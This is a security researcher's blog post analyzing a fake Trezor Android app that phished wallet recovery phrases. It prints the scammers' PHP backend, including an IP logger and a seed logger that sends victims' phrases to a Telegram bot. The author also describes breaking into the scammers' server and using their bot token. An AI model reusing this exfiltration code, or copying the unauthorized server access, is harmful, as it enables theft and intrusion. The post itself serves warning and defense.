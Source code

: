 ```yaml
---
layout: post
title: "Analysis of the Fake Trezor Mobile Wallet app in the Play Store"
date: 2021-04-14 00:00:00 -0000
categories: ['Ethical hacking']
tags: [trezor, bitcoin, scam, cryptocurrency]
author: vavkamil
---
```


tl;dr: I analyzed the fake Trezor Android application on Google Play Store, compromised the backend, and said hello to the developer.

<hr>

A story about a person losing 7.1 bitcoin worth ~$600,000 due to a fake "Trezor" app in the App Store [made the news](https://www.washingtonpost.com/technology/2021/03/30/trezor-scam-bitcoin-1-million/) very recently. According to the article, five people have reported having cryptocurrency stolen by the fake Trezor app on iOS, for total losses worth $1.6 million.

I saw another fake Trezor app pop-up on Google Play Store yesterday. People on Reddit were downloading the app to see what it does and to warn others. That caught my attention because it's generally not a good idea to install something like this blindly.

<hr>

### Android app

![](/assets/img/2021/04/google-play-store.png "google-play-store")

The Play Store listing had an almost five-star rating, a couple of primarily fake reviews, and around ~500 downloads. It looked somewhat believable to the casual user.

![](/assets/img/2021/04/play-store-reviews.png "play-store-reviews")

I pulled the .apk file from Play Store and decompiled it. From the first look, it was not malware, which was good. 

`$ sha256sum mobile-wallet-trezor-io_1.0.apk 1cc9a9748ccd210fb8aa06b1ae5b48ca3805eed12c670818a75e833733376b7f`

In the "/sources/com/rzor/p034tr/MainActivity.java" file on line 206, we could see this message:

`MainActivity.this.mo4371l0("This app is created using an unauthorized copy of 'Website 2 APK Builder Pro' Software.", "Unauthorized App", "Shame on me!");`

And on the line 1196:

`this.f2862z = "https://sliu3err-restaurant.com";`

![](/assets/img/2021/04/website-passphrase.png "website-passphrase")

So the Android application was just a WebView for the phishing website. The only functionality was to enter the 12/24 backup word phrase to connect the Trezor. Anyone who uses Trezor should know that you are never supposed to enter it anywhere, but sadly, people are still falling for it.

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Warning to all Trezor owners using Android devices!<br><br>This app is malicious and has no relation to Trezor or SatoshiLabs. Please, don&#39;t install it.<br><br>Remember that you should never share your seed with anyone until your Trezor device asks you to do it! <a href="https://t.co/6C3iKfPDnR">pic.twitter.com/6C3iKfPDnR</a></p>&mdash; Trezor (@Trezor) <a href="https://twitter.com/Trezor/status/1351123945911705602?ref_src=twsrc%5Etfw">January 18, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script> 

<hr>

### Server compromise

After getting access to the web server, just to look around and see how the backend works, I was surprised by how basic it was. In the "index.php" file was an IP logger:

```php
<?php
$dir = 'vixrs';
if(!is_dir($dir)){	mkdir($dir,0777);
}
$file = date('Y-m-d').'.txt';
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$ipInfo = grabIpInfo($_SERVER["REMOTE_ADDR"]);
$filename = $dir.'/'.$file;
$url = "http://$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]";
$info = '
 
===========================
IP: '.$ip .'
Browser: '.$browser .'
Ipinfo: '.$ipInfo .'
Time: '.date('d/m/Y H:i:s a').'
Filename: '.basename($_SERVER['PHP_SELF']).'
URL: '.$url.'
';
file_put_contents($filename, $info, FILE_APPEND);

function grabIpInfo($ip)
{

  $curl = curl_init();

  curl_setopt($curl, CURLOPT_URL, "http://ipwhois.app/json/$ip");
  curl_setopt($curl, CURLOPT_RETURNTRANSFER, TRUE);

  $returnData = curl_exec($curl);

  curl_close($curl);

  return $returnData;

}

$ipJsonInfo = json_decode($ipInfo);
?>
```

And in the "seed.php" file was the passphrase logger:

```php
<?php 
    $token = "16308!REDACTED!NyZV60tUX5ptudhtnSLj_nBNdo";

    $data = ["text" => $_POST['seed'],'chat_id' => '-59!REDACTED!38'];

    file_get_contents("https://api.telegram.org/bot$token/sendMessage?" . http_build_query($data) );
    return true;
?>
```

Essentially, when the victim installed the Android app and entered the Trezor seed passphrase, the Telegram bot immediately sent it to the encrypted group chat. And the scammers began the recovery phase to empty the cryptocurrency balance.

While having access to the Telegram API token, I invited myself to the chat group. Unfortunately, I or the bot couldn't see previous messages, so all I could do was say hello to the scammer. Their name was "Pinern nuere" with the username "caerwe3423".

![](/assets/img/2021/04/telegram-conversation.png "telegram-conversation")

There was nothing more to do, so I just disabled the bot, so it no longer could forward the passphrases and called it a night. In the morning, the fake app was no longer on Play Store, so mission accomplished.

<hr>

### Statistics

Since I grabbed the IP logs from a couple of days, I can share some stats. The backend was reused for all the variations of the scam. Most of the hits were from phones, with a wide range of Android versions worldwide:

**Day one:**

- 63 unique IP addresses
- 30 unique countries
- 62  unique user agents

**Day two:**

- 116 unique IP addresses
- 44 unique countries
- 104  unique user agents

**Day three:**

- 373 unique IP addresses
- 51 unique countries
- 326  unique user agents

**Day four:**

- 51 unique IP addresses
- 20 unique countries
- 52 unique user agents

**Day five:**

- 10 unique IP addresses
- 6 unique countries
- 9 unique user agents

I don't know how many of them were compromised, but hopefully zero.

<hr>

### Indicators of compromise

* https://play.google.com/store/apps/details?id=com.rzor.tr
* https://play.google.com/store/apps/details?id=com.tzr.trz2

* hXXps://sliuerr-restaurant.com
* hXXps://sliu3rr-restaurant.com
* hXXps://sliu3err-restaurant.com
